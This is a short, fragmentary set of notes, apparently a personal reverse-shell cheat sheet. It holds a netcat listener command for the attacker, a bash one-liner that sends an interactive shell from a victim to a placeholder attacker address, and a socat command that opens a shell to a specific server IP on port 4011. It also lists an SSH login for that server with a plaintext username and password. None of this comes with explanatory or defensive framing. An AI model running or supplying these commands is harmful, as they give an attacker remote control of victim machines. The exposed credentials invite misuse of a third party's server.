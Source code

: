 **Attaсker:**
nc -lvnp 4444

**Victim:**
_bash -c 'exec bash -i &>/dev/tcp/{{attacker-ip}}/{{attacker-port}} <&1'

4011-4015

VDS ip [45.8.144.248](http://45.8.144.248 "http://45.8.144.248")  
ssh rootme@45.8.144.248

  
L:rootme  
P:zse4XDR%
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:45.8.144.248:4011

